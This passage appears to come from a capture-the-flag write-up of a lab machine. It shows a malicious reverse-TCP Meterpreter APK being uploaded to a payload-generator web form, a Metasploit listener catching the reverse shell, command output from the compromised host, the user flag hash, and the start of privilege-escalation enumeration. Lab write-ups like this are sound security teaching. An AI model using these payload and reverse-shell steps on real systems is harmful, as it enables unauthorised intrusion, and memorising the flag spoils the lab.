 We go back to `http://10.129.72.251:5000/` and upload this `.apk` file.
```
payloads
venom it up - gen rev tcp meterpreter bins
os: android
lhost: 1.2.3.4
template file (optional): msf.apk
```
Before we run it, we also start a listener.
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Command shell session 1 opened (10.10.x.x:4444 -> 10.129.72.251:58800) at 2021-02-07 17:06:55 +0800

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
We got it! 

We can easily find our first flag.
```
pwd
/home/kid/html

cd ..
ls
html
logs
snap
user.txt
cat user.txt
05e59c0dba62dcb1bf331f88e92dcd16
```

## 6. Privilege Escalation
There are three users in this machine, `kid`, `pwn` and `root`. Since `pwn` is accessible, we enumerate it first.
```
pwd
/home
ls
kid
pwn
cd pwn
ls
recon
scanlosers.sh
```
There are two files in `pwn`!
```
ls -la
total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
```